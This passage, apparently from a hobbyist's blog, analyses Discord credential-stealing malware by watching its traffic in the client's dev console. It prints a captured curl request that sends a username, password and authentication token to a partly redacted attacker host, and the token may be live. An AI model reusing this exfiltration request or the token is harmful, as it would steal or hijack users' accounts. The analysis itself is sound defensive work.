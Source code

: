 ## phuck the phishers

while I have most of the payload, and can tell where the traffic was going via wireshark dns logs,
i couldn't really tell too easily what was happening

and so there is a setting you can manually enable in the settings.json of the discord client to enable the electron dev console (opt in because users kept screwing themselves)

![](/images/discord-skids/2022-08-12-23-43-42.png)

and once this is open I can see all of the requests being made

interestingly, they have a message waiting for me in the 200 OK response body

but here I could copy (as a curl method) the request being made

```
  curl 'https://t4ckXXXXXXXXXXXXXct.nl/J6d0IxhsyBHf' \
  -H 'authority: t4ckXXXXXXXXXXXXXct.nl' \
  -H 'access-control-allow-origin: *' \
  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) discord/1.0.9005 Chrome/91.0.4472.164 Electron/13.6.6 Safari/537.36' \
  -H 'content-type: application/json' \
  -H 'accept: */*' \
  -H 'origin: https://discord.com' \
  -H 'sec-fetch-site: cross-site' \
  -H 'sec-fetch-mode: cors' \
  -H 'sec-fetch-dest: empty' \
  -H 'referer: https://discord.com/' \
  -H 'accept-language: en-US' \
  --data-raw '{"data":{"username":"undefined#undefined","password":"adsflafdlkjfukckafukcjsadkfukclnasdflkalskdflkafdlkasflkj"},"billing":{"message":"401: Unauthorized","code":0},"friends":{"message":"401: Unauthorized","code":0},"token":"MTAwNTYwNTQzNTkyMDg3NTY1Mg.GlbYTA.vkjxrC1uAw6e1ZeuumledpaUBWSituhexgaKGU","type":"login"}' \
  --compressed
```
